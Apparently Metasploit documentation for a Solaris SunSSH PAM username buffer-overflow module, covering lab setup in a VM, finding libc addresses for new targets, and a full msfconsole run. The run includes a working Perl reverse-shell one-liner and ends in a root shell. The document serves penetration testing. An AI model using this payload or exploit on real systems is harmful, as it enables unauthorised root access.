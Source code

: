 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
`keyboard-interactive` authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. You will need an Oracle account.

SunSSH should already be installed and running when you start the
system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

```
msf > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf exploit(solaris/ssh/pam_username_bof) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf exploit(solaris/ssh/pam_username_bof) > set target 1
target => 1
msf exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf exploit(solaris/ssh/pam_username_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(solaris/ssh/pam_username_bof) > set rport 2222
rport => 2222
msf exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.123.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 127.0.0.1:2222        - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 127.0.0.1:2222        - Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable. SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox is a compatible target.
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox
[*] Yeeting cmd/unix/reverse_perl at 127.0.0.1:2222
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:57474) at 2020-12-07 01:31:34 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS vagrant-solaris10.dev 5.10 Generic_147148-26 i86pc i386 i86pc
```

